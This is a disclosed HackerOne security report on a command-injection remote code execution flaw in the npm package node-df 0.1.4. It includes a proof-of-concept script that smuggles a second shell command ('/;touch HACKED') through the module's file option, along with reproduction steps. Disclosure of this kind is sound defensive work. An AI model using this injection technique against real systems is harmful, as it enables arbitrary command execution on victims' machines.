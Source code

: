 # [node-df] RCE via insecure command concatenation

## Report Details
- **Report ID**: 703412
- **URL**: https://hackerone.com/reports/703412
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-09-28T09:11:41.085Z
- **Disclosed**: 2019-12-04T19:33:22.380Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `node-df` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `node-df`
**version:** `0.1.4`
**npm page:** `https://www.npmjs.com/package/node-df`

## Module Description
> node-df (abbreviation of disk free) is a cross-platform Node.js wrapper around the standard Unix computer program, df.

## Module Stats
[N/A] downloads in the last day
[3,023] downloads in the last week
[N/A] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is concatenated inside a `command` that will be executed without any check. The issue arises here: 

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
var df = require('node-df');
var options = {
        file: '/;touch HACKED',
        prefixMultiplier: 'GB',
        isDisplayPrefixMultiplier: true,
        precision: 2
    };
 
df(options, function (error, response) {
    if (error) { throw error; }
 
    console.log(JSON.stringify(response, null, 2));
});
```
1. Execute the following commands in terminal:

```bash
npm i node-df # Install affected module
ls # Make sure there isn't any *HACKED* file
node poc.js #  Run the PoC
ls # The *HACKED* file has been created
```
1. The `HACKED` file will be created {F594172}

## Patch
> Don't concatenate `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` on `node-df` via `insecure command concatenation`

## Attachments
- Screencast_09-28-2019_09_11_28_AM.webm
